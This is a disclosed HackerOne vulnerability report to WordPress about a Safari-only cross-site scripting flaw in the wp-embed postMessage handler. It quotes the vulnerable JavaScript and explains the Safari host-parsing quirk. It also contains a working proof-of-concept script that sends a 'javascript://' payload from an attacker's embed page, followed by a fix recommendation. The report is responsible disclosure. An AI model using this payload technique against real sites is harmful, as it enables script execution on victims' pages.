 # wp-embed XSS on Safari

## Report Details
- **Report ID**: 1238528
- **URL**: https://hackerone.com/reports/1238528
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-20T02:26:46.395Z
- **Disclosed**: 2023-07-01T11:34:07.022Z

## Reporter
- **Username**: zoczus
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hello! I'd like to report an XSS vulberability which works only on Safari browser (and maybe on others which I didn't checked. It defo doesn't work on both Chrome and Firefox). The other requirement which need to be met is attacker's blog post being embed on destination (victim) blog. 

## Analysis

Let's take a look to the core of problem - JavaScript postMessage handler: 

```javascript
     if (c.wp.receiveEmbedMessage = function(e) {
            var t = e.data;
            if (t)
                if (t.secret || t.message || t.value)
                    if (!/[^a-zA-Z0-9]/.test(t.secret)) {
                        for (var r, a, i, s = d.querySelectorAll('iframe[data-secret="' + t.secret + '"]'), n = d.querySelectorAll('blockquote[data-secret="' + t.secret + '"]'), o = 0; o < n.length; o++)
                            n[o].style.display = "none";
                        for (o = 0; o < s.length; o++)
                            if (r = s[o],
                            e.source === r.contentWindow) {
                                if (r.removeAttribute("style"),
                                "height" === t.message) {
                                    if (1e3 < (i = parseInt(t.value, 10)))
                                        i = 1e3;
                                    else if (~~i < 200)
                                        i = 200;
                                    r.height = i
                                }
                                if ("link" === t.message)
                                    if (a = d.createElement("a"),
                                    i = d.createElement("a"),
                                    a.href = r.getAttribute("src"),
                                    i.href = t.value,
                                    i.host === a.host)
                                        if (d.activeElement === r)
                                            c.top.location.href = t.value
                            }
                    }
        }
```

Things need to be noticed: 

- Secret need to be known (but it's provided as location.hash of embed webpage, so it's not a problem)
- Only content window can send postMessages (which is cool, as it's attacker website)
- If **message** attribute of postMessage data has `link` value - crazy things are happening
- most important ```c.top.location.href = t.value``` where `t` is postMessage data controlled by attacker. 

The last point obviously can lead to XSS if attacker will use ```javascript:alert(document.domain)``` as `t.value`, however - before it happen important check is made:

```javascript
     if (a = d.createElement("a"),
                                    i = d.createElement("a"),
                                    a.href = r.getAttribute("src"),
                                    i.href = t.value,
                                    i.host === a.host)
```

This code checks if **hostname** provided in ```t.value``` is the same as **hostname** of embed page. It create `<a>` element, but `t.value` as `href` attribute and then - takes `host` attribute of created URL. This approach is of course way better than some regexp magic ;-) but there's a behavior specific in Safari browser:

```
> var a = document.createElement("a")
> a.href="javascript://google.com/%0aalert(document.domain);//"
> console.log(a.host)
< google.com
```

All other browsers return empty string in case of using `javascript:` scheme, but not Safari. :) This could lead attacker to use `javascript` schema and execute javascript code in top window (victim's blog)


## Steps To Reproduce:

1. Get evil wordpress instance ;-) 
2. Edit `wordpress/wp-includes/theme-compat/embed.php` file and add your custom HTML code:

```html
<script>
if(document.location.hash.indexOf("secret") != -1) {
  secret = document.location.hash.split("=")[1];
  window.top.postMessage({"secret":secret,"message":"link","value":"javascript://"+document.location.host+"/%0aalert(document.domain);//"},"*");
}
</script>
```
3. Create any post on attacker blog, publish it and get it's URL.
4. On victim wordpress site (Safari) add new post with embed post from victim wordpress
5. Alert executed. :) 

Sample blogpost that can be embedded: `https://ropchain.org/lab/wordpress/2021/06/20/embed-me/`

## Recommendations

It's recommended to also validate schema of links and allow only HTTP / HTTPS links in postMessages.

## Impact

Ability to execute JavaScript code on wordpress page which embeded attacker's blogpost. 

Please assign CVE identifier to this vulnerability. While crediting it, please use:

*Jakub Żoczek, Senior Security Researcher @ Securitum [https://securitum.pl/](https://securitum.pl/)*

All the best!

## Attachments
No attachments
